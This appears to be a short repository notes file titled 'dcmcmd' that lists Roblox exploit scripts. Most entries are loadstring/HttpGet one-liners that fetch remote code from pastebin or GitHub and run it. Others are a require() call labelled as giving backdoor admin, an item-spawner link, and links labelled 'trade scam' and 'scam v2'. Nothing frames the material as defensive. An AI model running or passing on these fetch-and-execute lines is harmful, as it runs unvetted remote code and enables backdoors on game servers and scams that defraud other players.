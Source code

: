 # dcmcmd
stalkie https://pastebin.com/szpe6X47
              https://pastebin.com/deKynmgN
lalol loadstring(game:HttpGet('https://raw.githubusercontent.com/Its-LALOL/LALOL-Hub/main/Backdoor-Scanner/script'))()
give backdoor admin require(7192763922).load("Alexis19flacoo")
mm2 spawner https://pastebin.com/raw/L5UHBQ60
https://pastebin.com/raw/Zjbs7dB7 trade scam
loadstring(game:HttpGet('https://pastebin.com/raw/Vec48eZf'))() scam v2

